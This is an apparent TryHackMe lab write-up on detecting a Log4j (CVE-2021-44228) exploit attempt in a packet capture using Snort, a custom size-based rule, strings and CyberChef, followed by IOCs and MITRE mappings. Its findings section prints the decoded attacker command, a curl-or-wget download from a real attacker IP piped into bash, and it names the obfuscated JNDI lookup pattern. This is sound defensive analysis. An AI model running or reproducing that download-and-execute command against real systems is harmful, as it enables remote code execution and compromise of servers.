





# Snort IDS: Detecting a Log4j Exploit Attempt (TryHackMe)

**Scenario:** TryHackMe Snort lab, Log4j task (simulated environment). **Tools:** Snort, strings, CyberChef.

**TL;DR:** Log4j (CVE-2021-44228) exploit attempt. Snort raised 26 alerts on the capture, and a custom size-based rule isolated the exploit packet from 45.155.205.233. Its Base64 payload tells the target server to download a script from the attacker with curl or wget and run it with bash. The capture shows the attempt, not whether the command ran.

**Project Overview** In this project, I was tasked with analyzing a network capture (PCAP) file containing suspected exploitation attempts of the critical Log4j vulnerability (CVE-2021-44228). My objective was to configure the Snort Intrusion Detection System (IDS) to detect the malicious traffic, engineer custom filtering rules to isolate the payload, and perform deep packet inspection to decode the attacker's final command.

## 1. Initial Threat Detection

To begin the investigation, I ran the provided network capture against the rule set provided in the lab (local.rules) to identify any immediate anomalies within the traffic.

*Using the command sudo snort -c local.rules -A full -l . -r log4j.pcap, the IDS successfully processed the traffic, generating 26 alerts. This confirmed the presence of potential Log4j exploitation attempts, but required further filtering to isolate the specific malicious payload.*

## 2. Custom Rule Engineering

To filter out the network noise and pinpoint the exact exploitation payload, I engineered a custom Snort rule. The lab task gave the payload size range, so I filtered for packets between 770 and 855 bytes.

*I created a local rule utilizing the dsize:770\<\>855; parameter to strictly match the known payload dimensions, assigning it a custom SID (100001).*

## 3. Deep Packet Inspection (DPI)

Applying the newly engineered custom rule to the PCAP file successfully isolated the malicious traffic.

*The custom IDS rule successfully flagged a specific packet (ID: 62808) originating from the external IP 45.155.205.233.*

*By extracting the raw data from the generated Snort log files (utilizing the strings command in Linux), I performed a deep packet inspection. The raw payload revealed the classic Log4j JNDI lookup signature (\${lower:a}\${lower:p}://...), followed by an obfuscated command string.*

## 4. Payload Decoding & Analysis

The extracted payload contained a heavily obfuscated string, which I identified as Base64 encoding. To understand the attacker's ultimate goal, I utilized CyberChef to decode the payload.

**Investigation Findings & Conclusion:** The decoding process revealed the command the payload tries to run on the server: (curl -s 45.155.205.233:5874/162.0.228.253:80\|\|wget -q -O- 45.155.205.233:5874/162.0.228.253:80)\|bash

This confirmed that the Log4j vulnerability was being exploited to force the victim server to reach out to the attacker's server (45.155.205.233). The script attempts to use either curl or wget to silently download a secondary malicious payload (likely a reverse shell or cryptominer) and immediately pipe it into bash for execution.

Snort detected the exploit attempt, my custom rule isolated the payload, and decoding it showed the command the attacker wanted to run.

## IOCs

Defanged ([.]) to prevent accidental clicks.

| Type | Value          | Context                                          |
|----------|--------------------|------------------------------------------------------|
| IP       | 45.155.205[.]233 | Sends the exploit and hosts the download (port 5874) |
| IP       | 162.0.228[.]253  | Part of the download path (port 80)                  |
| CVE      | CVE-2021-44228     | Log4j remote code execution (Log4Shell)              |

## MITRE ATT&CK

| Technique                                 | ID    | Evidence                                    |
|-----------------------------------------------|-----------|-------------------------------------------------|
| Exploit Public-Facing Application             | T1190     | JNDI lookup payload for CVE-2021-44228          |
| Obfuscated Files or Information               | T1027     | \${lower:} lookups and a Base64-encoded command |
| Ingress Tool Transfer                         | T1105     | curl or wget download from 45.155.205[.]233   |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | Downloaded script piped into bash               |

## Recommendations

- Update Log4j to a patched release on every server that uses it.

- Block 45.155.205[.]233 and 162.0.228[.]253.

- Check the target server for connections to these IPs and for new processes started by the Java application.

- Keep IDS rules for \${jndi: payloads, including obfuscated forms.

## Open questions

- Did the target server run the command? The capture only shows the request.

- Which application on the server received the payload?
